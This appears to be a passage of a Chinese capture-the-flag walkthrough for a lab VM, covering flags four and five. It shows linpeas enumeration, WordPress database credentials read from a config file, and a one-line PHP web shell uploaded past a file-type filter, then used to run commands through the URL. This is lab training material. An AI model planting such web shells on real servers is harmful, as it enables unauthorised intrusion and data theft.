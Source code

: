 发现flag4：在home目录下发现
Flag data: EditButton


python -m SimpleHTTPServer 8081
chmod +x linpeas.sh

1）Linux version 4.4.0-31-generic
2）127.0.0.1:3306   ---不允许该用户登录
_USER', 'wordpressuser');
define('DB_PASSWORD', 'CaptainLimpWrist!!!');
define('DB_HOST', 'localhost');

3）tommy  （sudo）
Possible private SSH keys were found!
/home/bigtommysenior/.config/lxc/client.key



在前面登录密码后枚举到的信息中说：
可以使用Big Tom的主目录中的备份文件Callahanbak.bak恢复Callahan Auto的网站！

在根目录底下：ls -la
-rwxr-x---   1 www-data www-data   520 Jul  7  2016 .5.txt
www-data是.5.txt的所有者，需要拿到www-data的shell可以读取！


----------------------------------
----------------------------------
flag5：
在后端apache站底下发现uploda：
http://192.168.253.190:8008/NickIzL33t/P4TCH_4D4MS/
文件上传！
php-reverse上传后：
Sorry, only JPG, JPEG, PNG & GIF files are allowed, douchenozzle! Sorry, your file was not uploaded. Want me to save your game of Minesweeper though? 

不允许上传php文件！！

cd upload
nano dayu.php
<?php system($_GET['cmd']); ?>

http://192.168.253.190:8008/NickIzL33t//P4TCH_4D4MS/uploads/dayu.php?cmd=whoami

http://192.168.253.190:8008/NickIzL33t//P4TCH_4D4MS/uploads/dayu.php?cmd=cat%20/.5.txt

------------------------------
FIFTH FLAG!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!! YOU DID IT!!!!!!!!!!!!!!!!!!!!!!!!!!!! OH RICHARD DON'T RUN AWAY FROM YOUR FEELINGS!!!!!!!! Flag data: Buttcrack Ok, so NOW what you do is take the flag data from each flag and blob it into one big chunk. So for example, if flag 1 data was "hi" and flag 2 data was "there" and flag 3 data was "you" you would create this blob: hithereyou Do this for ALL the flags sequentially, and this password will open the loot.zip in Big Tom's folder and you can call the box PWNED. 
------------------------------发现flag5：Buttcrack
提示：说到将flag1~5全部合并就能提取loot.zip

